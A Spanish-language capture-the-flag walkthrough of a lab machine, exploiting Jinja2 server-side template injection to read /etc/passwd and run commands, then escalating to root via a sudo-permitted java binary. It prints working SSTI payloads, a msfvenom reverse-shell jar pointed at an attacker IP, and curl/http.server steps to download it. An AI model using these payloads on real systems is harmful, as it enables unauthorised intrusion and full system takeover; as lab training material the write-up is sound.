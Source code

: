 - Tags: #STTI #jinja2 #python #java 
____
comenzamos la maquina con el escaneo típico de nmap donde veremos que puertos están activos, para después poder comprobar su servicio y versión.
_____
![](attachment/73e7583c198329993ecb5a12b411e0c3.png)
____
tenemos un solo puerto abierto el cual esta levantado un servicio web.
____
![](attachment/3eaab2241b48e9d5859afd66ac836ab6.png)
_______
parece ser un formulario de registro, ingresemos los datos y veamos que nos devuelve.
_____
![](attachment/607ee7b5fff232494faa3389b1bdf8e9.png)
______
nos devuelve el nombre que le colocamos, por ahora vamos a dejar esta parte de la maquina por aquí y apliquemos fuzzing para ver que encontramos.
____
![](attachment/faef383290559c1e6269b118f20deaba.png)
___
encontramos otro directorio al cual si accedemos tenemos lo siguiente.
____
![](attachment/8ff4de5bd969885f2e80fe2ebfb21b38.png)
_____
nos pide un ping para poder acceder a la consola, y si vemos el código fuente veremos lo siguiente.
______
![](attachment/9aaf69af1a61edab711c38df3823d2c9.png)
______
pero aun así no tenemos nada solido por lo que vayamos de nuevo al formulario.
____
![](attachment/04c6271aa888515205daf3718b204c0a.png)
_____
colocaremos una etiqueta h1 de html y veremos como lo interpreta.
_____
![](attachment/6c3fd2e5e666a478c35c346b254c3dcf.png)
_____
vemos que en efecto se interpreta por lo que nos podemos estar enfrentado a un SSTI, el siguiente paso sera identificar el tipo de plantilla.

Según el lenguaje de programación backend, existen distintos tipos de plantillas web, como Jinja2 (Python), Twig (PHP) y FreeMarker (Java).

aplicaremos payloads de forma manual para ver a cual nos enfrentamos, y comenzaremos con jinja2.

podemos colocar {{7x7}} en el imput de usuario y ver que nos devuelve.
_____
![](attachment/05040f8be900346b16f5046f02ec8cd8.png)
_____
los errores serán nuestra guía en muchas ocasiones, en este caso se nos revelo que jinja2 es el tipo de plantilla que utiliza la web.

por lo que ahora podemos buscar payloads mas específicos para este tipo de plantilla.

utilizaremos PayloadsAllTheThings en el apartado de Server Side Template Injection e iremos probando payloads.

```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

tenemos el siguiente payload que nos permite el Read Remote File del fichero passwd
____
![](attachment/62ba9d591e67f1719617b198f126b839.png)
______
también tenemos ejecución remota de comando.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

_____
![](attachment/2de84661d5dfc0f40e4fa927a1cd47c7.png)
______
por lo que ahora elaboraremos la reverse shell para poder así ganar acceso a la maquina victima.
____
![](attachment/c0e20c2e6534fd17e9074dbc8b603d5a.png)
______
de esta forma nos enviamos una reverse shell y accedemos al sistema.

ahora lo que debemos hacer es aplicar el tratamiento de la tty y buscar formas de escalar privilegios.
____
![](attachment/6542bc1e9adcc00d873fb75c6e038c28.png)
____
podemos ejecutar java como root sin proporcionar contraseña.

lo que haremos es lo siguiente:

con msfvenom crearemos el payload de la siguiente forma.

```shell
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.102 LPORT=443 -f jar -o shell.jar
```

cuando lo tengamos debemos subirlo a la maquina, yo utilice un servidor con python para servir el archivo y utilice curl del lado de la maquina victima para descargarlos.

```python
python3 -m http.server 80
```

para descargar el archivo utilizaremos curl

```bash
curl http://192.168.1.2:8000/archivo.txt -o archivo.txt
```

____
![](attachment/8127ddabbcadd8d8986fb6dacfd8e354.png)
_____
ahora debemos ponernos a la escucha con netcat en otro puerto puesto que el payload es una reverse shell la cual sera ejecutada como root.

ya por ultimo ejecutamos el siguiente comando.

```bash
sudo /usr/bin/java -jar /tmp/shell.jar
```

y así lograremos ganar acceso a la maquina.
____
![](attachment/8c62463fa8e786246a57909d2c46042c.png)
